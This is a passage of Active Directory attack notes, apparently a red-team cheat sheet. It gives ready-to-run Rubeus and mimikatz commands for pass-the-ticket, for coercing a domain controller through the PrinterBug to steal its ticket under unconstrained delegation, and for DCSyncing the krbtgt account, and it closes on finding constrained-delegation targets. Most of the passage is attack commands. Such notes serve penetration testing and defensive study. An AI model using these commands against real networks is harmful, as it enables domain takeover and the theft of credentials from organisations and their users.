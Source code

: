 ```text
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
...
[+] ProcessID       : 3256
[+] LUID            : 0x584fe68
```

Then apply the ticket:

```text
Rubeus ptt /luid:0x584fe68 /ticket:<>
```

Finally impersonate the process with  `ImpersonateProcess 3256` . Note that this will not change the output of whoami.

We can also use mimikatz:

```text
privilege::debug
sekurlsa::tickets /export
kerberos::ptt ticket.kirbi
exit
```

Ticket is now applied and we can connect to the target \(e.g. PsExec\).

#### PrinterBug with Unconstrained Delegation

Monitor tickets with Rubeus:

```text
Rubeus monitor /interval:5 /filteruser:dc$
```

Run [SpoolSample](https://github.com/leechristensen/SpoolSample):

```text
SpoolSample.exe dc$ <server with unconstrained delegation we have a shell on>
```

After getting the TGT with Rubeus we can ptt and DCSync:

```text
Rubeus ptt /ticket:...
mimikatz # lsadump::dcsync /domain:... /user:<domain>\krbtgt
```

This can even be used across domains in a forest environment!

### Constrained Delegation

Restricts the services you can access on behalf of a user to a subset. Find machines that have it:

```text
PowerShell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
```

You always want to check Bloodhound too - often the delegation is only for a single service type like "time", so we have to take that into account when generating tickets with Rubeus s4u.
